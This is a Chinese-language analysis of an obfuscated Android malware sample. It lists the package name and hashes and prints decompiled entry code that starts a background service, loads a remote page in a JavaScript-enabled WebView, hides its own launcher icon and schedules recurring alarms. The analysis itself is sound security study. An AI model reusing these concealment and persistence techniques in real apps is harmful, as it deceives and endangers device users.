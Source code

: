 # 0x0 前言

## 0x0 加固

混淆

## 0x1 包名

wocwvy.czyxoxmbauu.slsa.rihynmfwilxiqz

## 0x2 样本来源

《移动安全攻防进阶》15.4



## 0x3 样本情况

SHA-1 : 7b5e31a41c9220330146d8a173b21512971c74a2

MD5 :  c027ec0f9855529877bc0d57453c5e86

# 0x1 入口分析

```java
public class myvbo extends Activity {
    b a = new b();
    c b = new c();
    b c = new b();
    a d = new a();

    @Override // android.app.Activity
    protected void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        //低版本
        if (!this.b.o || Build.VERSION.SDK_INT < 19) {
            startService(new Intent(this, jtfxlnc.class));
        } 
        //高版本
        else {
            //打开网页
            WebView webView = new WebView(this);
            webView.getSettings().setJavaScriptEnabled(true);
            webView.loadUrl(this.b.p);
            setContentView(webView);
        }
        getPackageManager().setComponentEnabledSetting(new ComponentName(this, myvbo.class), 2, 1); //禁用组件,不关闭app
        try {
            b bVar = this.a;
            b.a(this, "startAlarm", Integer.parseInt(this.a.e(this, "Interval")));
        } catch (Exception unused) {
            b bVar2 = this.a;
            b.a(this, "startAlarm", 10000L);
        }
        if (this.b.o) {
            return;
        }
        finish();
    }
}
```
